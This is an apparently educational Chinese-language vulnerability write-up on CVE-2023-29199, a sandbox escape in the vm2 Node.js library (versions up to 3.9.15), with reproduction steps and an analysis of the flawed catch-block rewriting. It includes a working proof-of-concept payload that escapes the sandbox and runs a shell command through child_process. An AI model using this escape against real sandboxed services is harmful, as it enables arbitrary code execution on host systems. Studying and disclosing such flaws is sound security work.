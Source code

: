 ```yaml
---
title: CVE-2023-29199
---
```


# CVE-2023-29199

<script setup>
import VueMetadata from "@/components/metadata/Metadata.vue"
</script>

<vue-metadata author="swwind" time="2023-6-12">
</vue-metadata>

vm2 是捷克 Patrik Simek 个人开发者的一个 Node.js 的高级虚拟机/沙盒。以使用列入白名单的 Node 内置模块运行不受信任的代码。

vm2 3.9.15 版本及之前版本存在安全漏洞。攻击者利用该漏洞绕过 `handleException()` 并泄漏未清理的主机异常，在其中主机环境中执行任意代码。

## 漏洞详情信息表

|  漏洞名称  |      vm2 安全漏洞      |
| :--------: | :--------------------: |
| CNNVD 编号 |   CNNVD-202304-1191    |
|  CVE 编号  | [CVE-2023-29199][nist] |
|    厂商    |       个人开发者       |
|  危害等级  |          超危          |
|  漏洞类型  |      沙箱逃逸漏洞      |

## 系统和软件环境配置详情信息表

- node v20.2.0
- yarn v1.22.19
- vm2 v3.9.15

## 漏洞还原详细步骤

1. 使用 `mkdir CVE-2023-29199` 指令新建目录用于测试。
2. 使用 `yarn init` 创建新的 nodejs 项目。
3. 使用 `yarn add vm2@3.9.15` 安装带有缺陷的 vm2 版本。

## 漏洞测试或验证详细步骤

### 编写代码

假设我们将 vm2 当作沙箱来运行任意代码，在披露中我们可以使用如下方式来绕过沙箱而获得整个程序的执行权限。

编辑 `index.js` 文件如下。

```js
const { VM } = require("vm2");
const vm = new VM();

const code = `
aVM2_INTERNAL_TMPNAME = {};
function stack() {
    new Error().stack;
    stack();
}
try {
    stack();
} catch (a$tmpname) {
    a$tmpname.constructor.constructor('return process')().mainModule
        .require('child_process')
        .execSync('echo "flag is here" > flag');
}
`;

console.log(vm.run(code));
```

### 测试漏洞

使用 `node index.js` 执行上面的代码之后，就可以发现当前目录下多出现了一个 `flag` 文件，内容正好是 `flag is here`。

![](/assets/exploits/figure4/fig1.png)

从上可以看出，我们成功绕过了沙箱的各种限制，拿取到了 shell 的执行权限。

### 漏洞分析

我们尝试理解 vm2 对于 catch 块的转译工作。

首先 vm2 是对于 node 自带模块 vm 的一层包装，旨在提供安全的沙箱环境运行代码。

在代码运行之前，vm2 会利用 acorn 对代码进行适当的解析，通过注入代码等方式代理 nodejs 中的一些危险操作，例如 eval 和 Function 对象等。

但是其中的代码含有一些缺陷。例如在解析 catch 块的时候，vm2 使用了一些预占用变量 `$tmpname` 作为替代，之后再使用 `.replace(/\$tmpname/g, tmpname)` 进行统一的替换。

![](/assets/exploits/figure4/fig2.png)

L137 代码的原意是使得 catch 捕获之后的变量经过 `handleException` 处理之后保证不暴露出 nodejs 的原生函数。但是碍于 L121 中的 `$tmpname` 原因，需要在最后添加含有容易被注入的全局替换语句。

![](/assets/exploits/figure4/fig3.png)

L189 中的 replace 函数会将所有 `$tmpname` 都替换为 `tmpname` 变量（默认值为 `VM2_INTERNAL_TMPNAME`），因此这句注入的语句会被最终展开成如下代码。

```c
aVM2_INTERNAL_TMPNAME=VM2_INTERNAL_STATE_DO_NOT_USE_OR_PROGRAM_WILL_FAIL.handleException(aVM2_INTERNAL_TMPNAME);
```

从而有效避免了捕获的 `a$tmpname` 变量被替换，从而在下文中可以得到一个原生的 `InternalError` 对象。

![](/assets/exploits/figure4/fig4.png)

通过对这个原生的 `InternalError` 对象获取 `.constructor` 可以获取到 `function InternalError()`，再次通过 `.constructor` 就可以获取到 `function Function()` 对象，通过该构造函数传入 `"return process"` 就可以获取到 nodejs 的 `process` 对象，从而实现接下来的任意代码执行工作。

[nist]: https://nvd.nist.gov/vuln/detail/CVE-2023-29199
